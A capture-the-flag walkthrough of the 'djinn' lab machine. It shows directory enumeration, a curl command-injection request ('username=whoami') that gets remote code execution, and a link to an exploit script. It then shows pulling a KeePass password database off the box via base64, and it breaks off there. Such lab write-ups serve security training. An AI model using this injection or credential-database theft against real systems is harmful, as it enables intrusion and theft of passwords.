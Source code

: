 Let's start the enumeration on port `7331`, let's run `gobuster` on it.

```bash
$ gobuster dir -q -u http://$ip:7331/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .php,.txt,.html -o gobuster.txt
/source (Status: 200)
/robots.txt (Status: 200)
/wish (Status: 200)
```

Source gives us a `python` code, i guess for port `5000` web app. Let's download it.

```bash
$ wget -q http://192.168.1.4:7331/source; mv source source.py
```

Let's analyze the code.

We can see this on the top of the script.

```python
URL = "http://{}:5000/?username={}&password={}"
```

I used `cURL` to test for `RCE`, after some tries i got it.

```bash
$ curl -s -X POST "http://$ip:5000/?username=whoami&password=t"
www-data
```

Perfect, i coded a small `RCE` exploit for it, you can find it there : [djinn exp](https://github.com/0xatom/0xatom.github.io/blob/master/scripts/exp.py)

Got shell :

![](https://i.ibb.co/w4KqG5n/Screenshot-3.png)

Now privesc, i found under `/var/backups` this `.kdbx` file.

`kdbx = KeePass Password Database`

You can install it it by running :

```
sudo apt-add-repository ppa:jtaylor/keepass
sudo apt-get update
sudo apt-get install keepass2 
```

Let's download this file using `base64`.

```bash
www-data@djinn:/var/backups$ python3 -c 'print(__import__("base64").b64encode(open("nitu.kdbx","rb").read()))'
...base64 data...
```

Now save this into a `.txt` and do this :

```bash
$ base64 -d base64.txt > nitu.kdbx
$ file nitu.kdbx 
nitu.kdbx: Keepass password database 2.x KDBX
```
